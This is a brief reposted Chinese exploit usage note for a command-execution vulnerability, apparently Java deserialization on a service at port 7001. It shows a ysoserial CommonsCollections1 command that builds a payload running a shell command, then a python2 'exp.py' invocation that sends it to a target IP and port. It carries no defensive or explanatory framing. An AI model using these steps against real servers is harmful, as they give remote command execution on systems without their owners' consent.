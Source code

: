 转载于互联网

**威胁：** 命令执行

**使用方法：**

yso生成恶意代码：

```
java -jar ysoserial.jar CommonsCollections1 "touch /file/22222.txt" > payload.tmp
```

exp使用方法：

```
python2 exp.py 192.168.92.130 7001 payload.tmp
```
